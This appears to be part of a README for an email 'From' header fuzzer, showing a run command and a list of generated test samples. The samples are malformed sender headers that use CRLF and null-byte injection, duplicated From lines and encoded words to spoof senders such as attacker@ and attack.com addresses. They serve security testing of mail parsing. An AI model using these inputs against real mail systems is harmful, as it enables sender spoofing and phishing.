 ```bash
python3 pre_fuzz.py -r 5322 -f from -c 255
```

**Screenshots:**

<div align=center><img src="./img/screenshots2.png" width = "800"  alt="screenshots" align=center /></div>

**Generated Test Sample:**

```json
"From :,()<key@ymail.com>(comment),(\r\n)\r\n",
"From: <=?utf-8?RnJvbTp3b3Jkd29yZCgNCik8YXR0YWNrZXJAdG9wLmNvbT4sQWxpY2VAeW1haWwuY29tLHdlYm1hc3RlckBsaXZlLmNvbSxhZG1pbkBpY2xvdWQuY29tLHNlY3VyaXR5QHNvaHUuY29tDQo==?=>\u0000@attack.com",
"From: <=?utf-8?RnJvbTooY29tbQ0KZW50KTxockBtc24uY29tPix3b3Jkd29yZChoaSk8TWlrZUBhbGl5dW4uY29tPix3b3JkPGFkbWluQGhvdG1haWwuY29tPihoaSksd29yZHdvcmR3b3JkKCk8QHFxLmNvbTpAMTYzLmNvbTpzZWN1cml0eUBhbGl5dW4uY29tPihjb21tDQplbnQpDQo==?=>\u0000@attack.com",
"From:Bob@aliyun.com,(),,,word<attacker@foxmail.com>\r\n",
" FrOM: <Oscar@attack.com>\r\nFrom:(comm\r\nent)<@qq.com:@163.com:Alice@foxmail.com>,word<attacker@live.com>,word(comment)<hr@sina.com>(comm\r\nent)\r\n",
" Fromÿ: <Oscar@attack.com>\r\nFrom:key@msn.com\r\n",
" Fromÿ: <Oscar@attack.com>\r\nFrom:(\r\n)<@gmail.com:@b.com:webmaster@live.com>,word(comment)<@qq.com:@163.com:webmaster@126.com>,<@a.com:@b.com:Alice@139.com>(comment)\r\n",
"From :,(\r\n),Mike@china.com,word<key@163.com>(comm\r\nent),\r\n",
"From:()<@a.com:@b.com:security@ymail.com>(comm\r\nent)\r\n",
"From: <Oscar@attack.com>\r\nFrom:(comm\r\nent),key@sohu.com\r\n",
" From:,,(comment),webmaster@sina.cn,(hi)\r\n",
"From: ,<@gmail.com:@b.com:admin@china.com>,(hi)<@gmail.com:@b.com:attacker@msn.com>,(hi),,(),\r\n",
"From: (hi)<Alice@msn.com>(),security@aliyun.com,word(comment)<@a.com:@b.com:Bob@ymail.com>(),word<Bob@outlook.com>(\r\n)\r\n",
" Fromÿ: <Oscar@attack.com>\r\nFrom:,key@139.com,,(hi),,(),\r\n",
...
```